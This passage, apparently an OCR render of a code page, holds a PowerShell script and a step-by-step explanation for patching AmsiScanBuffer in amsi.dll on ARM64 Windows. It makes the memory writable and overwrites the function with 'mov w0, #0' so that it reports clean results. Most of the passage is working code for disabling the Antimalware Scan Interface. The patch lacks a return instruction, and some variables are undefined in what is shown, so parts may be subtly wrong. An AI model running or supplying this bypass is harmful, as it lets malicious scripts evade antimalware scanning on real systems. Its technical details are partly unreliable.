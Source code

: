 ```powershell
    
    public const uint PROCESS_ALL_ACCESS = 0x1F0FFF;
    public const uint PAGE_EXECUTE_READWRITE = 0x40;
}
"@

# Open the process
$pid = $process.Id
$hProcess = [MemPatch]::OpenProcess([MemPatch]::PROCESS_ALL_ACCESS, $false, $pid)

# Calculate the address of AmsiScanBuffer
# You need to calculate the offset of AmsiScanBuffer within amsi.dll
$amsiScanBufferOffset = 0x4e30  # This is the offset, modify as needed
$amsiScanBufferAddress = [IntPtr]::Add($amsiBaseAddress, $amsiScanBufferOffset)

# Change memory protection to allow writing
$oldProtect = 0
[MemPatch]::VirtualProtect($amsiScanBufferAddress, [UIntPtr]4, [MemPatch]::PAGE_EXECUTE_READWRITE, [ref]$oldProtect)

# Patch the instruction (mov w0, #0 in ARM64)
# This is the equivalent ARM64 opcode for "mov w0, #0"
$patch = @(0x00, 0x00, 0x80, 0x52)  # mov w0, #0 instruction for ARM64

# Write the patch
$bytesWritten = [IntPtr]::Zero
[MemPatch]::WriteProcessMemory($hProcess, $amsiScanBufferAddress, $patch, [UIntPtr]4, [ref]$bytesWritten)

# Restore original memory protection
[MemPatch]::VirtualProtect($amsiScanBufferAddress, [UIntPtr]4, $oldProtect, [ref]$oldProtect)

"Successfully patched AmsiScanBuffer!"
```

### Explanation:

1. **Open the Process**: We open the PowerShell process to gain access to its memory using the `OpenProcess` API with full access rights (`PROCESS_ALL_ACCESS`).
   
2. **Locate `AmsiScanBuffer`**: The base address of `amsi.dll` is found, and we calculate the address of the `AmsiScanBuffer` function using its known offset (`0x4e30` in this example). You’ll need to confirm this offset using debugging or reverse engineering.

3. **Change Memory Protection**: We use `VirtualProtect` to change the memory protection of the `AmsiScanBuffer` memory page to `PAGE_EXECUTE_READWRITE`, allowing us to modify the memory.

4. **Patch the Function**: We overwrite the beginning of `AmsiScanBuffer` with the ARM64 opcode for `mov w0, #0`, which forces the function to always return `S_OK`.

5. **Restore Memory Protection**: After the patch, the original memory protection is restored.

### Notes:
- **Offset of `AmsiScanBuffer`**: The offset `0x4e30` used here is just an example. You’ll need to confirm the correct offset for the version of `amsi.dll` you are working with on the ARM64 build.
  